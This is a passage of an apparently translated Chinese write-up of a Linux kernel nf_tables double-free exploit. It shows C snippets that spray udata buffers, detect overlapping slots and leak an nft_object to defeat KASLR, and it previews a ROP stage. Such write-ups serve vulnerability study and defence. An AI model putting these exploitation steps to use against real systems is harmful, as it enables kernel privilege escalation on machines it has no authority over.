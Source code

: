 ```

    // double-free commited elems
[...]
    nftnl_set_free(set);
}
[...]
```  
  
表中包含一个可读写的外部用户数据缓冲区udata  
。通过在双重释放的槽位上分配一个udata  
 缓冲区，并使其与nft_object  
 重叠，我们可以泄露->ops  
 指针，并利用它来计算 KASLR 偏移量。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kSUdyzBpFVXUpzb7ZSNSj2wruE6ial29rMaA3Iiccx0OibCgQkeQGT8ZFGw/640?wx_fmt=png&from=appmsg "")  
  
```
[...]
    // spray 3 udata buffers to consume elems A, B and A again
    udata_spray(nl, 0xe8, 0, 3, NULL);

    // check if overlap happened (i.e if we have to overlapping udata buffers)
    char spray_name[16];
    char *udata[3];
    for (int i = 0; i < 3; i++)
    {
        snprintf(spray_name, sizeof(spray_name), "spray-%i", i);
        udata[i] = getudata(nl, spray_name);
    }
    if (udata[0][0] == udata[2][0])
    {
        puts("[+] got duplicated table");
    }

    // Replace one of the udata buffers with nft_object
    // and read it's counterpart to leak the nft_object struct
    puts("[*] Info leak");
    deludata_spray(nl, 0, 1);
    wait_destroyer();
    obj_spray(nl, 0, 1, NULL, 0);
    uint64_t *fake_obj = (uint64_t *)getudata(nl, "spray-2");
[...]
```  
  
正如我将在 ROP 部分详细讨论的那样，漏洞利用需要一个已知的可控内存地址才能工作。我决定使用nft_object  
 来获取它自己的地址。这是可行的，因为nft_object  
 有一个udata  
 指针（类似于我用来泄露 KASLR 的table->udata  
），我可以用它来读写数据。  
  
nft_object  
 结构体还包含一个list_head  
，它被插入到一个循环链表中，该链表包含属于给定table  
 的所有nft_object  
。考虑到我们的对象目前在其表中是独立的，nft_object  
 中的table->list.next  
 指针将指回包含在table  
 中的list_head  
，反之亦然。  
  